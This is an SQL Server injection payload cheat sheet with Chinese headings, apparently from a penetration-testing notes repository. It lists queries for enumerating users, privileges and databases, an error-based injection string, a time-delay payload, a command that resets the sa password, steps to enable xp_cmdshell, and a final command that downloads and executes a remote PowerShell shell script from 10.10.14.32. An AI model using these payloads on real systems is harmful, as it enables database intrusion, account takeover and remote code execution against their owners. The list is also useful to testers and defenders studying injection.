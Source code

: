 SQL Server Payload
=====================================

常见Payload
----------------------------------------
- Version
    - ``SELECT @@version``
- Comment 
    - ``SELECT 1 -- comment``
    - ``SELECT /*comment*/1``
- Space
    - ``0x01 - 0x20``
- 用户信息
    - ``SELECT user_name()``
    - ``SELECT system_user``
    - ``SELECT user``
    - ``SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID``
- 用户权限
    - ``select IS_SRVROLEMEMBER('sysadmin')``
    - ``select IS_SRVROLEMEMBER('db_owner')``
- List User
    - ``SELECT name FROM master..syslogins``
- 数据库信息
    - ``SELECT name FROM master..sysdatabases``
    - ``select quotename(name) from master..sysdatabases FOR XML PATH('')``
- 执行命令
    - ``EXEC xp_cmdshell 'net user'``
- Ascii
    - ``SELECT char(0x41)``
    - ``SELECT ascii('A')``
    - ``SELECT char(65)+char(66)`` => return ``AB``
- Delay
    - ``WAITFOR DELAY '0:0:3'`` pause for 3 seconds
- Change Password
    - ``ALTER LOGIN [sa] WITH PASSWORD=N'NewPassword'``
- Trick
    - ``id=1 union:select password from:user``
- 文件读取
    - OpenRowset
- 当前查询语句
    - ``select text from sys.dm_exec_requests cross apply sys.dm_exec_sql_text(sql_handle)``
- hostname
    - 用于判断是否站库分离
    - ``select host_name()``

报错注入
----------------------------------------
- ``1=convert(int,(db_name()))``

常用函数
----------------------------------------
- SUSER_NAME()
- USER_NAME()
- PERMISSIONS()
- DB_NAME()
- FILE_NAME()
- TYPE_NAME()
- COL_NAME()

常用功能
----------------------------------------
- 开启cmdshell:

::

    EXEC sp_configure 'Show Advanced Options', 1;
    reconfigure;
    sp_configure;
    EXEC sp_configure 'xp_cmdshell', 1
    reconfigure;
    xp_cmdshell "whoami" 


- 下载并执行文件：

::

    xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.32/shell.ps1\");" 